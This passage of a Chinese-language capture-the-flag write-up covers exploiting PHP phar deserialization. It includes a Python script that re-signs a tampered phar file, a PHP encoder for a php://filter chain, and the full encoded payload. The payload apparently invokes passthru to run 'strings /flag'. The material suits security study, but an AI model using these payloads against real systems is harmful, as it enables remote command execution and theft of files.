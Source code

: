 需要修改phar文件，这个i=1改为i=0,然后修改签名算法

![image-20220517095054504](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220517095054504.png)

然后修改签名

```python
from hashlib import sha1
f = open('./phar4.phar', 'rb').read() # 修改内容后的phar文件
s = f[:-28] # 获取要签名的数据
h = f[-8:] # 获取签名类型以及GBMB标识
newf = s+sha1(s).digest()+h # 数据 + 签名 + 类型 + GBMB
open('phar5.phar', 'wb').write(newf) # 写入新文件
```

修改完签名后得到的phar文件，利用filter协议处理数据,我用的是UCS-2

```php
<?php
$b=file_get_contents('phar5.phar');
$payload=iconv('utf-8','UCS-2',base64_encode($b));
file_put_contents('payload.txt',quoted_printable_encode($payload));
$s = file_get_contents('payload.txt');
$s = preg_replace('/=\r\n/', '', $s);
echo $s;
?>
```

获得

```
=00R=000=00l=00G=00O=00D=00l=00h=00P=00D=009=00w=00a=00H=00A=00g=00X=001=009=00I=00Q=00U=00x=00U=00X=000=00N=00P=00T=00V=00B=00J=00T=00E=00V=00S=00K=00C=00k=007=00I=00D=008=00+=00D=00Q=00q=00f=00A=00Q=00A=00A=00A=00Q=00A=00A=00A=00B=00E=00A=00A=00A=00A=00B=00A=00A=00A=00A=00A=00A=00B=00p=00A=00Q=00A=00A=00Y=00T=00o=00y=00O=00n=00t=00p=00O=00j=00A=007=00T=00z=00o=000=00O=00i=00J=00V=00c=002=00V=00y=00I=00j=00o=00y=00O=00n=00t=00z=00O=00j=00g=006=00I=00n=00V=00z=00Z=00X=00J=00u=00Y=00W=001=00l=00I=00j=00t=00P=00O=00j=00c=006=00I=00k=001=005=00Z=00X=00J=00y=00b=003=00I=00i=00O=00j=00I=006=00e=003=00M=006=00N=00z=00o=00i=00b=00W=00V=00z=00c=002=00F=00n=00Z=00S=00I=007=00T=00z=00o=001=00O=00i=00J=00G=00a=00W=00x=00l=00c=00y=00I=006=00M=00j=00p=007=00c=00z=00o=004=00O=00i=00J=00m=00a=00W=00x=00l=00b=00m=00F=00t=00Z=00S=00I=007=00T=00j=00t=00z=00O=00j=00M=006=00I=00m=00F=00y=00Z=00y=00I=007=00c=00z=00o=00x=00M=00z=00o=00i=00c=003=00R=00y=00a=00W=005=00n=00c=00y=00A=00v=00Z=00m=00x=00h=00Z=00y=00I=007=00f=00X=00M=006=00N=00D=00o=00i=00d=00G=00V=00z=00d=00C=00I=007=00c=00z=00o=004=00O=00i=00J=00w=00Y=00X=00N=00z=00d=00G=00h=00y=00d=00S=00I=007=00f=00X=00M=006=00O=00D=00o=00i=00c=00G=00F=00z=00c=003=00d=00v=00c=00m=00Q=00i=00O=002=00E=006=00M=00j=00p=007=00a=00T=00o=00w=00O=000=008=006=00N=00D=00o=00i=00V=00X=00N=00l=00c=00i=00I=006=00M=00T=00p=007=00c=00z=00o=004=00O=00i=00J=001=00c=002=00V=00y=00b=00m=00F=00t=00Z=00S=00I=007=00T=00z=00o=003=00O=00i=00J=00N=00e=00W=00V=00y=00c=00m=009=00y=00I=00j=00o=00y=00O=00n=00t=00z=00O=00j=00c=006=00I=00m=001=00l=00c=003=00N=00h=00Z=002=00U=00i=00O=000=008=006=00N=00T=00o=00i=00R=00m=00l=00s=00Z=00X=00M=00i=00O=00j=00I=006=00e=003=00M=006=00O=00D=00o=00i=00Z=00m=00l=00s=00Z=00W=005=00h=00b=00W=00U=00i=00O=000=004=007=00c=00z=00o=00z=00O=00i=00J=00h=00c=00m=00c=00i=00O=003=00M=006=00M=00T=00M=006=00I=00n=00N=000=00c=00m=00l=00u=00Z=003=00M=00g=00L=002=00Z=00s=00Y=00W=00c=00i=00O=003=001=00z=00O=00j=00Q=006=00I=00n=00R=00l=00c=003=00Q=00i=00O=003=00M=006=00O=00D=00o=00i=00c=00G=00F=00z=00c=003=00R=00o=00c=00n=00U=00i=00O=003=001=009=00a=00T=00o=00x=00O=003=00M=006=00N=00T=00o=00i=00Y=002=00h=00l=00Y=002=00s=00i=00O=003=001=009=00a=00T=00o=00w=00O=000=004=007=00f=00Q=00g=00A=00A=00A=00B=000=00Z=00X=00N=000=00L=00n=00R=004=00d=00A=00s=00A=00A=00A=00B=00f=00G=00I=00F=00i=00C=00w=00A=00A=00A=00N=00v=00G=00o=00S=00C=002=00A=00Q=00A=00A=00A=00A=00A=00A=00A=00G=00F=00h=00Y=00W=00F=00h=00Y=00W=00F=000=00Z=00X=00N=000=00m=00q=00m=00Y=00/=006=00M=00E=00x=00m=008=00j=00z=00s=00U=00K=00F=00y=00n=00e=00G=00W=000=00M=00m=00z=00E=00C=00A=00A=00A=00A=00R=000=00J=00N=00Q=00g=00=3D=00=3D

```
